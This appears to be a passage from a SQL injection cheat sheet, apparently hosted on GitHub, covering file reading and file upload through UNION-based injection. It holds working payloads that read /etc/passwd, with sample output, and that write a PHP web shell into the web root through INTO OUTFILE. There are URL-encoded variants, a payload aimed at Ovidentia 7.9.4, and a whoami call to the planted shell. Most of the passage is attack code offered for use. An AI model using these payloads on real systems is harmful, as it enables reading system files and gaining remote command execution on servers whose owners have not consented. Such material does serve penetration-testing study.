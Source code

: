 ### 6. Read a file
The following can be used to read files on the local system with the right permissions
```
' UNION SELECT LOAD_FILE('/etc/passwd') , null, null;#
```
| ProductName | ProductID | OrderID |
|----|----|----|
| Socks | 12543 | 8756|
| Football | 25631 | 2953 |
| Gloves | 52316| 1235 |
|root:x:0:0:root:/root:/usr/bin/zsh daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologin ... adminpete:x:1000:1000:adminpete,,,:/home/adminpete:/usr/bin/zsh...  | | |

### 7. Upload a file
To upload a file we can set a string and send it to a file on the machine. we could send it to a place we can execute code, such as in the web root directory and navigate to the file to execute it. Here is an example:
```
' UNION SELECT null, null, null AND '<?php system($_GET["cmd"]); ?>'  into outfile '/tmp/cmd.php' ;#
```
#### NOTE
When URL encoding is needed to adhear to the HTTP protocol, it is important to know what will be interpreted as URL encoded charicters. 
```
'%20UNION%20SELECT%20'<?php%20echo%20passthru($_GET["cmd"]);?
```
You may also need to include extra functions for SQL injection to be viable, like in this example where i am exploiting a vulnerability where a URL perameter has to be kept in the query to perform the injection on  [Ovidentia version 7.9.4](https://www.exploit-db.com/exploits/27771#:~:text=delete_type%26item%3D1-,%2527%26entitytype%3D2,-Copy) (Scroll down on the link to see the part I hilighted. %27 in URL encoding is a single quote):
```
>'%20INTO%20OUTFILE%20'C:/wamp/www/PHP/cmd.php'--%20-&entitytype=2
```

## URL Based SQL Injection
Some SQL distributions require sequences to define where commented charicters end command execution can begin, such as MySQL. MySQL requires each comment sequence to be followed by at minimum one white space, or control chariacter if we do not put a control charicter in, the SQL code wont execute: 
```
;-- -
;# -
```
Here is an example:
```
	tg=admoc&idx=octypes&action=delete_type&item=2' UNION SELECT '[script]' INTO OUTFILE '[outfile]'-- -&entitytype=1
```
Here is an example which would allow you to visit the http site and go to the cmd.php page to run commands using the cmd perameter:
```
tg=admoc&idx=octypes&action=delete_type&item=2' UNION SELECT null AND '<?php system($_GET["cmd"]); ?>'  INTO OUTFILE '/wamp/www/PHP/cmd.php'-- -&entitytype=1

http://10.10.10.10/cmd.php?cmd=whoami
```
This is what the code would look like outside of the url:
```
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/wamp/www/PHP/cmd.php' ;#
```
